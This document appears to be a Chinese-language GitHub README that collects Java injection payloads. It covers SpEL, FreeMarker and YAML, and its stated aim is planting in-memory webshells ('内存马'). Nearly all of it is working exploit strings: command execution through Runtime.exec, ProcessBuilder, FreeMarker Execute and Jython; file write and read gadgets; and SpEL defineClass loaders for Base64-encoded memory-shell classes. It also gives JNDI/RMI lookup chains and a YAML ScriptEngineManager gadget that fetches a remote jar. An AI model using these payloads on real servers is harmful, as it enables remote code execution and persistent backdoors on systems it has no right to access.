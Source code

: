 # Memoryshell-JavaALL
我不允许你还不会用JAVA 内存马

## SPEL 

不加模板解析的payload
T(java.lang.Runtime).getRuntime().exec("calc")
new+java.lang.ProcessBuilder("cmd","/c","Calc").start()

加模板解析的payload
#{new java.lang.ProcessBuilder({'calc'}).start()}

可以回显时使用
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()

可以打入内存马高版本Spring Core 受限

#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()}

使用JNDI 注入利用 在Springboot 中不适用，因为它会程序启动时初始化InitialContext
#{T(java.lang.System).setProperty('com.sun.jndi.ldap.object.trustURLCodebase', 'true')} 
#{new javax.management.remote.rmi.RMIConnector(new javax.management.remote.JMXServiceURL("service:jmx:rmi://127.0.0.1:1389/jndi/ldap://127.0.0.1:1389/Basic/Command/Calc"), new java.util.Hashtable()).connect()}

## FreeMarker 
执行命令
${"freemarker.template.utility.Execute"?new()("id")}
${"freemarker.template.utility.Execute"?new()("Calc")}
<#assign value="freemarker.template.utility.Execute"?new()>${value("Calc")}

写文件
${"freemarker.template.utility.ObjectConstructor"?new()("java.io.FileWriter","/tmp/hh.txt").append("<>").close()}

读文件
${"freemarker.template.utility.ObjectConstructor"?new()(java.io.FileWriter("/tmp/hh.txt").append("ttt").close())}

使用SPEL利用
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc\")").getValue()}

使用SPEL 进行JNDI
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("new+javax.management.remote.rmi.RMIConnector(new+javax.management.remote.JMXServiceURL(\"service:jmx:rmi://127.0.0.1:1389/jndi/ldap://127.0.0.1:1389/Basic/Command/Calc\"),new+java.util.Hashtable()).connect()").getValue()}

使用SPEL 加载内存马
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("T(org.springframework.cglib.core.ReflectUtils).defineClass('SpringInterceptor',T(org.springframework.util.Base64Utils).decodeFromString(\"yv66vgAAADQA5。。。\"),new+javax.management.loading.MLet(new+java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()").getValue()}

使用Jython 
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>

## YAML

ftp 可以换为HTTP 及其他支持协议
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["ftp://127.0.0.1:8000/yaml-payload4.jar"]]]]



------------------------------------------------------------------------------------
各位师傅有建议及其他Payload 带带弟弟啊
未完待续.....

